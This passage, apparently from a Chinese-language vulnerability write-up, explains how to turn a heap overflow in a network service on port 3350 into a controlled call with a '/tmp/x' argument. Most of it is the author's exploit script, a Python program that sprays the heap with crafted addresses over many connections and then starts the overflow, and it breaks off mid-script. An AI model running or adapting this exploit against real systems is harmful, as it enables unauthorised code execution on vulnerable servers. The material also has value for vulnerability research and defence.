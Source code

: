 ```
#endif
}
```  
  
  
  
self->in_s->end 为 0 将会失败，因为 args[args_len] 会引用错误的地址。  
因此最好的办法是找一个地方，让 self->in_s->end 能够指向 0 。  
  
这似乎是有可能实现的，而且即便我们找不到任何指向 0 的指针，只要能有一片连续的地址保持如下结构就行了：  
```
addr1 | addr2 | addr3 | 0
```  
  
  
  
甚至于，直接尝试堆喷去撞那个将近 1% 的概率似乎也不是不能接受。  
  
加之第一个参数是稳定控制的，尽管能写的字符数不多，但 ”/tmp/x“ 总共也不到八字节，绰绰有余。  
  
  
这么一看，似乎对参数就有很多余裕了，只要参数符合调用规则，任意参数都可以。因此接下来就只剩下找到一个合适的地址作为参数去构造了。  
  
  
最后的 EXP 结构大致如下：  
```
import socket
import struct
import time
 
def pack_addr2():
    sdata = b"\xba\xc9\x40\x00\x00\x00\x00\x00"
    return sdata
 
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",3350))
 
con_list=[0]*300
for i in range(12):
    con_list[i] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    con_list[i].connect(("127.0.0.1",3350))
    sdata = b''
    sdata += struct.pack("I",0x2222CCCC)
    sdata += struct.pack(">I",0x80000000)
    con_list[i].send(sdata)
    sdata = pack_addr2()*0x3f0
    con_list[i].send(sdata)
    time.sleep(0.05)
 
con_list[14] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
con_list[14].connect(("127.0.0.1",3350))
con_list[15] = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
con_list[15].connect(("127.0.0.1",3350))
 
x = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
x.connect(("127.0.0.1",3350))
 
 
# init stream
sdata = b''
sdata += struct.pack("I",0x2222CCCC) #version
sdata += struct.pack(">I",0x80000000) #headersize
con_list[15].send(sdata)
sdata = b'D'*0x10
con_list[15].send(sdata)
 
# heap overflow
sdata = b''
sdata += struct.pack("I",0x2222CCCC) #version
```